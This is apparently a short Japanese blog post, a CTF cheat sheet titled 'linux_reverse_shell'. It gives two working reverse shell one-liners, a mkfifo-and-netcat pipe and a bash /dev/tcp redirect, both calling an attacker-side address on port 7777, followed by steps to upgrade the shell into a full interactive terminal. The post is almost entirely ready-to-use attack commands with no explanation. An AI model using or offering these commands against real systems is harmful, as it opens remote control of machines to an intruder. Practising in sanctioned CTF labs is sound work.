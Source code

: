 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```
## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
